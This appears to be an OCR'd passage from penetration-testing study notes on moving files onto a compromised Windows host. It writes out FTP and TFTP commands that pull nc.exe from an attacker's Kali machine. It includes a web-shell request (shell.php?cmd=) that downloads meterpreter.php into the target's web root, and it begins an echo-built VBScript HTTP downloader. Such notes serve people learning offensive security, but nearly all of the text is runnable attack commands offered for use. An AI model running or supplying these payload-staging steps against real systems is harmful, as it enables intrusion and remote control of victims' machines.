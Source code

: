 C:\Users\offsec>echo GET nc.exe >> ftp.txt

C:\Users\offsec>echo bye >> ftp.txt

C:\Users\offsec>ftp -v -n -s:ftp.txt

#### UPLOADING FILES WITH TFTP

We first need to set up the TFTP server in Kali.

mkdir /tftp

1.	atftpd --daemon --port 69 /tftp

2.	cp /usr/share/windows-binaries/nc.exe /tftp/

3.	tftp -i 10.11.0.5 get nc.exe

another method we first need to set up the TFTP server in Kali.

1.	atftpd -daemon -bind-address 192.168.20.09 /tmp

2.	set the command parameter in shell.php script as follows

http://192.168.20.10/shell.php?cmd=tftp 192.168.20.9 get meterpreter.php c:\\xampp\\htdocs\\meterpreter.php

#### UPLOADING FILE USING VBSCRIPT

write out a VBS script that acts as a simple HTTP downloader

echo strUrl = WScript.Arguments.Item(0) > wget.vbs

echo StrFile = WScript.Arguments.Item(1) >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs

echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs

echo Err.Clear >> wget.vbs

echo Set http = Nothing >> wget.vbs

echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs

echo http.Open "GET", strURL, False >> wget.vbs

echo http.Send >> wget.vbs

echo varByteArray = http.ResponseBody >> wget.vbs

echo Set http = Nothing >> wget.vbs
